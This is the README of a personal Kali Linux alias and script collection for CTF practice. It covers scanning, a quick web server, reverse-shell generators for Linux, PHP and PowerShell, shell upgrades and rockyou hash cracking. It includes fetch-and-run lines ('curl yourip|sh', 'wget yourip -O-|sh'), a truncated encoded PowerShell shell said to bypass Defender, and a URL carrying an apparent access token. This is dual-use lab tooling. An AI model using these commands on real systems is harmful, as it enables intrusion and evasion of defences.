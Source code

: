 # Setup for Kail for CTFs, HTB, THM etc


This is a collection of scripts used while doing differnt ctf's

# Scripts
## Scan.sh
This will do some basic recon and generate files for later review of the machine. This does a simple port check with massscan then takes those ports and runs a full nmap scan on the open ports. 
```
wget https://raw.githubusercontent.com/sparksbenjamin/kali-scripts/master/scan.sh?token=GHSAT0AAAAAACSVEWTHZ2H7EYRCCHNDW6UEZTBCD3A
./scan.sh $IP_ADDRESS

```
# Aliases
Misc
> www
Starts a HTTP server on port 80 in the current directory. Also prints a list of the IP address associated with each NIC, shows the current directory path and lists the files. Example:

┌──(jazz㉿kali)-[/tmp/www]
└─$ www
[eth0] 192.168.172.128
[/tmp/www]
linpeas.sh  pspy64
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
Notes
Sudo is used to ensure being able to listen on port 80
> tun0
Copies the IP addres of the tun0 interface to the clipboard. Example:

┌──(jazz㉿kali)-[~/jazz]
└─$ tun0 
Clipboard contents after:

10.10.14.41
> mkdir_cd
Often when making a directory I want to directly cd into it after. This does exactly that.
Example:

┌──(jazz㉿kali)-[~/jazz]
└─$ mkdir_cd pepega

┌──(jazz㉿kali)-[~/jazz/pepega]
└─$ 
Reverse shells
> gen_lin_rev $ip $port
Based on RSaaS. Creates a file called index.html in the current directory. This file contains multiple reverse shell payloads that will be attempted in sequence until one works. Can be used with www to make spawning a reverse shell after gaining RCE extremely easy and fast. Just make the target execute curl yourip|sh and it will retrieve the reverse shell payload from your webserver and -hopefully- connect back to your listener. Example:

┌──(jazz㉿kali)-[~]
└─$ gen_lin_rev 127.0.0.1 1337
[+] Wrote Linux reverse shells to /home/jazz/index.html
Notes
I really like how the curl yourip|sh payload doesn't really have any badchars besides possibly the space and the pipe. When spaces form an issue there are ways around this and the pipe can be bypassed by just downloading and executing separately.
If curl is not installed on the remote machine you can try wget yourip -O-|sh
> gen_php_rev $ip $port
Generates the PentestMonkey PHP reverse shell with the supplied ip and port and saves it in the current directory.
Example:

┌──(jazz㉿kali)-[~]
└─$ gen_php_rev 127.0.0.1 1337                                                              
[+] Wrote PHP reverse shell to /home/jazz/jazz.php
> gen_ps_rev $ip $port
Generates a Powershell reverse shell with the supplied ip and port which at the moment of last usage bypassed defender. I'm not sure who to give credit for this payload. Example:

┌──(jazz㉿kali)-[~]
└─$ gen_ps_rev 127.0.0.1 1337
Clipboard contents after:

powershell -ec JABUAGEAcgBnAGUAdABIAG8AcwB0A...
TTY upgrades
> py_tty_upgrade
Copies the python(2) tty upgrade command to the clipboard. Example:

┌──(jazz㉿kali)-[~/jazz]
└─$ py_tty_upgrade
Clipboard contents after:

python -c 'import pty;pty.spawn("/bin/bash")'
Notes
Requires xclip to be installed
> py3_tty_upgrade
Exactly the same as above but with python3. Example:

┌──(jazz㉿kali)-[~/jazz]
└─$ py3_tty_upgrade 
Clipboard contents after:

python3 -c 'import pty;pty.spawn("/bin/bash")'
Notes
Requires xclip to be installed
> script_tty_upgrade
When Python is not installed on the remote machine you can use this command to copy the script method to upgrade to a tty shell to your clipboard. Example:

┌──(jazz㉿kali)-[~/jazz]
└─$ script_tty_upgrade
Clipboard contents after:

/usr/bin/script -qc /bin/bash /dev/null
Notes
Requires xclip to be installed
> tty_fix
Runs stty raw -echo; fg; reset should be used after using one of the above tty upgrades.

> tty_conf
Grabs the current tty settings (number of rows and columns) and copies a oneliner to the clipboard that can be pasted straight into your reverse shell window to get those settings to match up. This fixes the issue of line wrapping occuring halfway in your terminal. Example:

┌──(jazz㉿kali)-[~/jazz]
└─$ tty_conf               
Clipboard contents after:

stty rows 30 columns 116
Notes
Requires xclip to be installed
Hashcracking
> rock_john $hash_file (extra arguments)
Instead of manually supplying rockyou as an argument with --wordlist=/usr/share/wordlists/rockyou.txt (without auto completion :/) this alias injects that argument and thus can be used to try and crack a hash using JohnTheRipper and the rockyou wordlist more easily. Example:

┌──(jazz㉿kali)-[~/jazz]
└─$ rock_john hash.txt --format=Raw-MD5
Using default input encoding: UTF-8
Loaded 1 password hash (Raw-MD5 [MD5 128/128 AVX 4x3])
Warning: no OpenMP support for this hash type, consider --fork=8
Press 'q' or Ctrl-C to abort, almost any other key for status
jazz             (?)     
1g 0:00:00:00 DONE (2022-05-19 15:59) 100.0g/s 5376Kp/s 5376Kc/s 5376KC/s lynn88..ilovebrooke
Use the "--show --format=Raw-MD5" options to display all of the cracked passwords reliably
Session completed.
Notes
Kali seems to have fixed auto completion for John in 2022.2! This alias still saves you some effort though ;)
Portscanning
> nmap_tcp $ip (extra arguments)
Starts a TCP nmap scan with my default settings and outputs the scan results to an nmap directory which is automatically created if it does not yet exist. Example:

┌──(jazz㉿kali)-[~]
└─$ nmap_default 127.0.0.1
[i] Creating /home/jazz/nmap...
Starting Nmap 7.92 ( https://nmap.org ) at 2022-05-19 16:04 EDT
...
Notes
This only scans the default TCP ports. Add -p- as an argument to scan all ports.
Uses sudo to get the privileges required for a SYN scan
> nmap_udp $ip (extra arguments)
Starts an UDP nmap scan with my default settings and outputs the scan results to an nmap directory which is automatically created if it does not yet exist. Example:

┌──(jazz㉿kali)-[~]
└─$ nmap_udp 127.0.0.1
[i] Creating /home/jazz/nmap...
Starting Nmap 7.92 ( https://nmap.org ) at 2022-05-19 16:11 EDT
...
Notes
This only scans the default UDP ports. Add -p- as an argument to scan all ports.
Uses sudo to get the privileges required for a UDP scan

# Scan.sh
This will do some basic recon and generate files for later review of the machine.
```
wget https://raw.githubusercontent.com/sparksbenjamin/kali-scripts/master/scan.sh?token=GHSAT0AAAAAACSVEWTHZ2H7EYRCCHNDW6UEZTBCD3A
./scan.sh $IP_ADDRESS

```
